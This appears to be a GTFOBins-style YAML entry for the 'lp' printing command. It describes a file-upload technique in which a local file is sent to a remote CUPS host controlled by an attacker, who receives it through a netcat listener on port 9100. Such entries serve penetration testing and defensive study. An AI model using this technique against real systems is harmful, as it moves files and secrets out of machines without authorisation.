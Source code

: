 ```yaml
---
functions:
  file-upload:
    - description: |
        To collect the file run the following on the attacker box (this requires `cups` to be installed):

        1. `lpadmin -p printer -v socket://localhost -E` to create a virtual printer;
        2. `lpadmin -d printer` to set the new printer as default;
        3. `cupsctl --remote-any` to enable printing from the Internet;
        4. `nc -lkp 9100` to receive the file.

        Send a local file to a CUPS server.
      code: |
        lp $LFILE -h $RHOST
---
```

